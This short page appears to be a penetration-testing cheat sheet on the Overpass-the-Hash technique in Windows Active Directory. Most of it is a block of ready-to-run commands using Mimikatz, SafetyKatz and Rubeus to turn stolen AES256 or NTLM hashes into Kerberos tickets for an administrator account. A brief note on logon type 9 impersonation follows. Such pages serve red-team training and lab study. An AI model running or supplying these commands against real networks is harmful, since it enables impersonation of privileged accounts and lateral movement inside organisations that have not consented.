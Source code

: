 # Over Pass The Hash

Over pass the hash (OPTH) is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

{% code overflow="wrap" fullWidth="false" %}
```powershell
# Need elevated access to run
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# Doesn't need elevated access to run
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
{% endcode %}

The above commands will start a powershell session with a logon type 9 (same as runas /netonly) i.e, when `whoami` is executed locally the usual user is displayed, only when remote resources are requested other user is impersonated. Basically only for network commands the other user is impersonated.
